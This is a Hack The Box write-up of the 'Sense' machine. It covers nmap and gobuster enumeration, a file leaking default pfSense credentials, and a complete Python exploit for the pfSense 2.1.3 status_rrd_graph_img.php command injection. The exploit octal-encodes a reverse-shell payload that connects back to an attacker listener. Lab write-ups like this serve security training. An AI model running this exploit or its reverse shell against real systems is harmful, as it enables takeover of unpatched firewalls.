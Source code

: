 ```yaml
---
title: "Sense"
layout: post
author: "daniboomberger"
date: 2021-07-27 18:13:44 +0530
categories: [HackTheBox,Machines]
tags: [htb, command_injection, linux]
math: true
image: /assets/img/htb_sense/sense.png 
---
```


# Sense
Author: daniboomberger
Date: July 27, 2021
This is the official writeup about the sense machine on hackthebox.

## Enumeration
### Nmap
```bash
$ nmap -sC -sV -Pn -oA nmap/sense 10.10.10.60
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-27 05:16 EDT
Nmap scan report for 10.10.10.60
Host is up (0.035s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.43 seconds
```

### Directory busting
On the url https://10.10.10.60/ we have a pfsense login page. Pfsense is a firewall, which is running on FreeBSD. The Web content seems to be outdated, to be fair I did the box `1324 days` after retiring on hackthebox.
To search for more information we ran `gobuster` against https://10.10.10.60. Sadly the box seems to be fairly slow so we had to wait a couple of minutes. In the result we got some a really interesting file back `system-users.txt`. It contained a `username` and a password. The password was the default installation password of pfsense.
```html
####Support ticket###

Please create the following user


username: Rohit
password: company defaults 

rohit:pfsense
```

### Pfsense Dashboard 
With the credentials from before we can login into the pfsense dashboard and look up other information. The version running on our pfsense instance was `2.1.3RELEASE`.

![Pfsense Dashboard](/assets/htb_sense/pfsense_dashboard.png)

## Pfsense vulnerability
```python3
```py
import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")
```

After some research on "google" we found an exploit for our version. It was an command injection in the file `status_rrd_graph_img.php`. First of all the exploit starts simple with sending `GET` and `POST` requests to login until they can access the `status_rrd_graph_img.php`. Afterwards there are the interesting requests done by the exploit. It sense the `command` [Reverse Shell] variable converted in octal in the `GET` request  to the vulnerable url. Afterwards it will get directly run on the server and you should get back a reverse shell on the provided port. 
To be short it sends `reverse-shell code in python` to the module `status_rrd_graph_img.php` and get executed.
